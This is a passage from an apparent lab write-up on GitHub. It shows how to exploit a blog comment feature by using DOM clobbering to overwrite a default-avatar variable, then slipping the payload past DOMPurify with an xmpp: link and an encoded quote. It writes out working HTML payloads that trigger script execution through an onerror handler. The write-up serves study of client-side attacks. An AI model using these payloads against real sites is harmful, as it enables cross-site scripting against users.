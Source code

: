 Relevant JS snippet:

<img width="830" height="152" alt="image" src="https://github.com/user-attachments/assets/dedad1a8-fd8f-42c2-9461-925795a6fa52" />

The core logic:

```js
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'};
let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">';
```

---

### Step 3: DOM Clobbering

We can clobber `window.defaultAvatar` by inserting two `<a>` tags:

* One with `id=defaultAvatar`
* One with `name=avatar`

This causes `window.defaultAvatar.avatar` to reference the `href` attribute of the second `<a>` tag.

**Clobbering Payload:**

```html
<a id=defaultAvatar>
<a id=defaultAvatar name=avatar href='\"onerror=alert(1)//'>
```

**Problem:** The `href` attribute is removed due to DOMPurify sanitization.

<img width="882" height="366" alt="image" src="https://github.com/user-attachments/assets/b1c58d55-4170-42ce-920a-91069391fa30" />

---

### Step 4: Bypass DOMPurify Filtering

The app uses DOMPurify as shown:

```js
commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);
```

To bypass this, we exploit a trick in DOMPurify:

* Using protocols like `cid:`, `xmpp:` in `href` attributes bypasses encoding
* `&quot;` gets decoded at runtime to `"` and stays unescaped

**Working Payload:**

```html
<a id=defaultAvatar>
<a id=defaultAvatar name=avatar href=xmpp:&quot;onerror=alert(1)//>
```

---
